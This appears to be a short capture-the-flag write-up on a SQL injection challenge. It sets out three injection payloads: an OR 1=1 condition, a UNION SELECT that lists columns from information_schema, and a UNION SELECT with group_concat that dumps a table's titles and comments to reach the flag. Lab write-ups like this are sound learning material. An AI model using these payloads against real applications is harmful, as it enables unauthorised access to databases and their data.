





# Another SQL injection

## Enumeration / Exploitation

1. List all images with OR condition

```
123 OR 1=1
```



We notice the image with the title hack me.
So we decide to dump everything about the images

2. Dump all columns from the image table

```
1 and 1=2 union select group_concat(column_name), 2 from information_schema.columns where table_schema = database()-- -
```



We see the columns from the image table. 

3. We try to dump the other column fields

```
1 and 1=2 union select group_concat(title, comment), 2 from list_images -- -
```



Finally we follow the instruction from the comment and get the flag.




## FLAG

[-- 🌱 --][2]

[2]: ./flag.txt